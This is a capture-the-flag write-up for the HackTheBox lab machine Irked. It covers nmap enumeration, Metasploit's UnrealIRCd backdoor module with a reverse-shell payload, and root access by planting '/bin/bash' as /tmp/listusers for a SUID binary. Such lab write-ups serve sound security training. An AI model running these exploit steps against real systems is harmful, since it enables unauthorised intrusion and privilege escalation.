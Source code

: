 ```yaml
---
title: "HackTheBox - Irked"
author: Nasrallah
description: ""
date: 2023-02-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, suid, metasploit]
img_path: /assets/img/hackthebox/machines/irked
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

![](0.png)

## **Description**

Hello hackers, I hope you are doing well. We are doing [Irked](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -p- {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -p-: scan all ports


```terminal
Nmap scan report for 10.10.10.117                                                                                                                             
Host is up (0.15s latency).                                                                                                                                   
                                                                                                                                                              
PORT      STATE SERVICE VERSION                                                                                                                               
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)                                                                                          
| ssh-hostkey:                                                                                                                                                
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)                                                                                                               
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)                                                                                                               
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)                                                                                                              
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)                                                                                                            
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))                                                                                                        
|_http-server-header: Apache/2.4.10 (Debian)                                                                                                                  
|_http-title: Site doesn't have a title (text/html).                                                                                                          
111/tcp   open  rpcbind 2-4 (RPC #100000)                                                                                                                     
| rpcinfo:                                                                                                                                                    
|   program version    port/proto  service                                                                                                                    
|   100000  2,3,4        111/tcp   rpcbind                                                                                                                    
|   100000  2,3,4        111/udp   rpcbind                                                                                                                    
|   100000  3,4          111/tcp6  rpcbind                                                                                                                    
|   100000  3,4          111/udp6  rpcbind                                                                                                                    
|   100024  1          37467/tcp   status                                                                                                                     
|   100024  1          46655/udp6  status                                                                                                                     
|   100024  1          57678/tcp6  status                                                                                                                     
|_  100024  1          59290/udp   status                                                                                                                     
8067/tcp  open  irc     UnrealIRCd                                                                                                                            
65534/tcp open  irc     UnrealIRCd                                                                                                                            
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

We found a couple of open ports, 22/tcp running OpenSSH, 80/tcp running an Apache http web server, 111/tcp is rpcbind, and the last two are running `UnrealIRCd`.

### Web

Let's check the web page.

![](1.png)

We see an image and a note talking about `IRC`, probably a hint telling us where to look.

### Searchsploit

Let's see if `unrealircd` has any vulnerabilities.

```terminal
└──╼ $ searchsploit unrealircd
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                   | windows/dos/27407.pl
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There is a backdoor command execution exploit in Metasploit.

## **Foothold**

Let's start `msfconsole` and use `exploit/unix/irc/unreal_ircd_3281_backdoor`.

Let's set up the following options.

```terminal
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set rhosts 10.10.10.117
rhosts => 10.10.10.117
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set rport 8067
rport => 8067
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set payload cmd/unix/reverse
payload => cmd/unix/reverse
[msf](Jobs:0 Agents:0) exploit(unix/irc/unreal_ircd_3281_backdoor) >> set lhost tun0
lhost => tun0
```

Now let's run the exploit.

![](2.png)

Great, we got a shell.


## **Privilege Escalation**

Before starting enumeration, i uploaded my ssh public key to the target and sshed to it.

Next i run linpeas and got the following.

![](3.png)

We found an unknown suid binary called `viewuser`, let's see what it does.

```terminal
ircd@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Feb  4 01:48 (:0)
ircd     pts/0        Feb  4 02:33 (10.10.17.90)
sh: 1: /tmp/listusers: not found
```

The binary is trying to execute /tmp/listusers but the file is note there.

We can exploit that by creating `listusers` file that executes `/bin/bash`.

```terminal
ircd@irked:~$ echo '/bin/bash' > /tmp/listusers
ircd@irked:~$ chmod +x /tmp/listusers
ircd@irked:~$ viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           Feb  4 01:48 (:0)
ircd     pts/0        Feb  4 02:33 (10.10.17.90)
root@irked:~# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
root@irked:~#
```

We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
